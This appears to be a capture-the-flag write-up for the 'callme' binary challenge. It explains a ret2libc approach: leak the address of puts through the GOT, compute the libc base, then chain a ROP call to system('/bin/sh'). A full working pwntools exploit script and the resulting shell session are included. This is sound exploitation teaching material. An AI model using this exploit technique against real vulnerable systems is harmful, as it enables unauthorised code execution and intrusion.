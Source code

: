 # callme Alternative Solution

There are no `system()` calls nor any `/bin/sh` strings in the application,
however we can find them at runtime, once `libc` has been loaded.

```
gdb ./callme
start

find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0x7fa3151ee5bd --> 0x68732f6e69622f ('/bin/sh')

p *system
# $1 = {int (const char *)} 0x7fa31508c290 <__libc_system>
```

GDB disables ASLR per default, to enable it run `set disable-randomization off`.

In our exploit we can't depend on the addresses reported by GDB above, since
they are usually randomized every time the program is run.

But using `puts` or `printf`, we can print out the address of a known libc
function and then use that to calculate the base address at which libc is
loaded.

```python
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
```

We read the offset of `puts` from the global offset table (GOT):

```sh
readelf --relocs callme
#   Offset          Info           Type           Sym. Value    Sym. Name + Addend
# 000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

Then we pass this as the argument to a `puts` call, which will dereference it
and print out the actual address of the `puts` function.

By knowing the correct version of libc in use we can simply subtract the offset
(where in libc the function is located) from the leaked address (where in
memory it is loaded) to obtain the address where libc starts in our processes
memory.

```python
libc.address = leaked_addr - libc.symbols["puts"]
```

Finally, we can do our search for the `/bin/sh` string and the `system()`
function.

```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

However, the application crashes in `do_system()`, at a `movaps` instruction.
As we've learned in the previous challenges, a simple fix is to include
another `ret` instruction.

```python
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
```

Finally, we get a shell:

```
python3 exploit.py
# ... SNIP ...
[*] Switching to interactive mode
$ whoami
testikus
$ ls
callme    exploit.py        key2.dat  payload.txt
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'x86_64'

process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

offset = b'A'*40
pop_rdi = 0x004009a3  # pop rdi; ret gadget
puts_got = 0x00601018 # puts@got
puts_plt = 0x004006d0 # puts@plt
#leave = 0x004008f0    # leave; ret gadget
ret = 0x004008f1      # ret gadget
main = 0x00400847     # main procedure

#p = process(process_name)
p = gdb.debug(process_name, '''
b *pwnme+89
''')

payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
print(p.recvuntil("> "))
print(p.clean())
p.sendline(payload)
leaked_string = p.recvuntil("\ncallme")
received = leaked_string.replace(b"Thank you!\n", b"")
received = received.replace(b"\ncallme", b"")
leaked_addr = u64(received.ljust(8, b"\x00"))
print("--- leak BEGIN ---")
print(hex(leaked_addr))
print("--- leak END ---")
libc.address = leaked_addr - libc.symbols["puts"] # calculate libc base: base = current_process_puts - offset_of_puts_from_base
print("libc base @ %s" % hex(libc.address))

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# do_system uses the movaps instruction, which will fail on an unaligned stack.
# To realign the stack we include an additional ret in our rop-chain.
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

print(p.clean())
p.sendline(payload)
print(p.clean())
p.interactive()

# with open("payload.txt", "wb") as f:
#     f.write(payload)

#p = process("./callme")
#p.send(payload)
#p.interactive()
```

I created most of this with some help from this great
[blog](https://pollevanhoof.be/nuggets/buffer_overflow_linux/3_aslr_ret2libc).

Note that in the linked article it is mentioned:

> We can now run our script inside a small bash loop and after a couple of
> crashes it should pop us a shell:
> `while ! ./exploit_ret2libc.py; do clear; done`

The reason why the program crashes sometimes instead of spawning a shell
seems to be caused by this line:

```python
recieved = leaked_string.replace(b"overflow me:", b"").strip()
```

Note the `strip()` at the end, `leaked_string` contains the `printf`/`puts`
address.
If that address ends (or starts) in a `0x20` this will be removed by the
`strip` call, since `0x20` also happens to be ASCII (space).

